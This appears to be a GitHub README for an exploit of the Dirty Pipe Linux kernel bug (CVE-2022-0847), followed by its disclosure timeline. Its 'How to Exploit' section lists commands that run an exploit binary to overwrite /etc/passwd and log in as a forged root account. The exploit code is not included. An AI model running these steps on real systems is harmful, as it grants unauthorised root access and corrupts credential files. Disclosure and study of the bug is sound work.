


### Information

```c
Exploit Title: Local Privilege Escalation in Linux kernel (CVE-2022-0847)
Date: 03/07/2022
Exploit Author: Max Kellermann <max.kellermann@ionos.com>
Tested on: ubuntu 20.04.1 LTS
Affect product:Linux kernel 5.8 or later
Fixed Product:Linux kernel 5.16.11, 5.15.25, 5.10.102
CVE ID: CVE-2022-0847
```

### How to Exploit

Test Environment：



Local Privilege Escalation

```
cp /etc/passwd /tmp/passwd.bak
gcc exp.c -o exp
./exp /etc/passwd 1 ootz:
su rootz
id
```



### Reference

https://dirtypipe.cm4all.com/

### Timeline

- 2021-04-29: first support ticket about file corruption
- 2022-02-19: file corruption problem identified as Linux kernel bug, which turned out to be an exploitable vulnerability
- 2022-02-20: bug report, exploit and patch sent to the [Linux kernel security team](https://www.kernel.org/doc/html/latest/admin-guide/security-bugs.html)
- 2022-02-21: bug reproduced on Google Pixel 6; bug report sent to the Android Security Team
- 2022-02-21: [patch sent to LKML (without vulnerability details)](https://lore.kernel.org/lkml/20220221100313.1504449-1-max.kellermann@ionos.com/) as suggested by Linus Torvalds, Willy Tarreau and Al Viro
- 2022-02-23: Linux stable releases with my bug fix ([5.16.11](https://lore.kernel.org/stable/1645618039140207@kroah.com/), [5.15.25](https://lore.kernel.org/stable/164561803311588@kroah.com/), [5.10.102](https://lore.kernel.org/stable/164561802556115@kroah.com/))
- 2022-02-24: [Google merges my bug fix into the Android kernel](https://android-review.googlesource.com/c/kernel/common/+/1998671)
- 2022-02-28: notified the [linux-distros](https://oss-security.openwall.org/wiki/mailing-lists/distros#how-to-use-the-lists) mailing list
- 2022-03-07: public disclosure


